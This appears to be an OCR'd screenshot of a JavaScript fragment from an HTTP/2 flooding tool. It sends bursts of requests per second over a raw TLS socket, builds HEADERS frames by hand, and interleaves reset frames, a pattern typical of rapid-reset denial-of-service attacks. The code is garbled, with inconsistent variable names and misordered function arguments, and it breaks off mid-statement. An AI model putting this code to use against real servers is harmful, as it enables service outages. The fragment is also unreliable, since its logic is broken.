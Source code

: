                             
                if (!tlsSocket || tlsSocket.destroyed || !tlsSocket.writable) return;
                for (let i = 0; i < rps; i++) {
                 const priorityWeight = Math.floor(Math.random() * 256); 
                const requestPromise = new Promise((resolve, reject) => {
                    const request = client.request(head, {
                                                weight: priorityWeight,
                                                parent:0,
                                                exclusive: true,
						                        endStream: true,
                                                dependsOn: 0,
                                               
                                            });
                                            req.setEncoding('utf8');
                                            let data = 0;
                                            req.on('data', (chunk) => {
                                            data += chunk;
                                            });
                    request.on('response', response => {
                    request.close(http2.constants.NO_ERROR);
                    request.destroy();
                    resolve(data);
                            });
                    request.on('end', () => {
                    count++;
                    if (count === time * rps) {
                    clearInterval(intervalId);
                    client.close(http2.constants.NGHTTP2_CANCEL);
                    client.goaway(1, http2.constants.NGHTTP2_HTTP_1_1_REQUIRED, Buffer.from('GO AWAY'));
                    } else if (count=== rps) {
                    client.close(http2.constants.NGHTTP2_CANCEL);
                    client.destroy();
                    clearInterval(intervalId);
                    }
                    reject(new Error('Request timed out'));
                    });
                    request.end(http2.constants.ERROR_CODE_PROTOCOL_ERROR);
                });

                const packed = Buffer.concat([
                    Buffer.from([0x80, 0, 0, 0, 0xFF]),
                    hpack.encode(head)
                ]);

                const flags = 0x1 | 0x4 | 0x8 | 0x20;
                
                
                const encodedFrame = encodeFrame(streamId, 1, packed, flags);
                
                const frame = Buffer.concat([encodedFrame]);
                if (streamIdReset >= 5 && (streamIdReset - 5) % 10 === 0) {
                                            tlsSocket.write(Buffer.concat([
                                                encodeFrame(streamId, data, 0x3, Buffer.from([0x0, 0x0, 0x8, 0x0]), 0x0),
                                                frame
                                                